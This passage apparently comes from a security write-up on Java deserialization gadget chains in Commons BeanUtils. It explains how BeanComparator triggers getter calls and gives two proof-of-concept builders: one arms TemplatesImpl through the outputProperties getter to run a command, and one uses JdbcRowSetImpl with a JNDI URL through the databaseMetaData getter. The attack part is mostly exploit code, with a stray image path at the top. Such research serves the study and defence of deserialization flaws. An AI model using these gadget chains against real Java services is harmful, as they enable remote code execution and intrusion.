 ```java
	Object value = invokeMethod(readMethod, bean, EMPTY_OBJECT_ARRAY);
	...

}
```
In this method, firstly it creates a `PropertyDescriptor` of the input bean and gets the getter according to the property name. When the getter is invoked, our `TemplatesImpl` is ignited.

Poc:
Note that, set the `property` member of `BeanComparator` to  `lowestSetBit` so as to successfully add initial value to queue. You can also set it to null.
```java
final Object templates = Gadgets.createTemplatesImpl(command);  
// mock method name until armed  
final BeanComparator comparator = new BeanComparator("lowestSetBit");// or null
  
// create queue with numbers and basic comparator  
final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);  
// stub data for replacement later  
queue.add(new BigInteger("1"));  
queue.add(new BigInteger("1"));  
  
Reflections.setFieldValue(comparator, "property", "outputProperties");  
Reflections.setFieldValue(queue, "queue", new Object[]{templates, templates});  
  
return queue;
```

### Using JdbcRowSetImpl (CB3)

The `JdbcRowSetImpl` class has a property named `databaseMetaData` whose getter calls `connect()` to look up a JNDI URL.
```java
public DatabaseMetaData getDatabaseMetaData() throws SQLException {  
    Connection con = connect();  
    return con.getMetaData();  
}
```

Poc:
```java
BeanComparator comparator = new BeanComparator("lowestSetBit");  
JdbcRowSetImpl rs         = new JdbcRowSetImpl();  
rs.setDataSourceName(jndiURL);  
rs.setMatchColumn("xx");  
PriorityQueue queue = new PriorityQueue(2, comparator);  
  
queue.add(new BigInteger("1"));  
queue.add(new BigInteger("1"));  
  
Reflections.setFieldValue(comparator, "property", "databaseMetaData");  
Reflections.setFieldValue(queue, "queue", new Object[]{rs, rs});  
return queue;
```

---